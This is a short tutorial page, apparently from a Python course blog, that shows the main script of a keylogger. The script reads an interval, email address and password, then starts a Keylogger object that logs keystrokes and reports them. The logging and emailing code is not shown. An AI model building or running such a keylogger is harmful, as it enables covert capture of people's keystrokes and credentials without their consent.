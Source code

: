```yaml
---
title: Main method Invoking the Keylogger class
permalink: /permalinks/keylogger/main
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


# This script invokes all methods and classes used by the keylogger.
- We make the code modular and much easy to read seperating the keylogger class and main files. 
- We use this class to invoke methods from the keylogger class to log and report.


### Code:

```python
#!/usr/bin/env python

import argparse
# import filename
import keylogger


# Parse Args
options = keylogger.get_arguments()
print(keylogger.banner)
# new object definition for class "Keylogger"
my_keylogger = keylogger.Keylogger(int(options.interval), str(options.email), str(options.password))
# Use the start method
my_keylogger.start()
```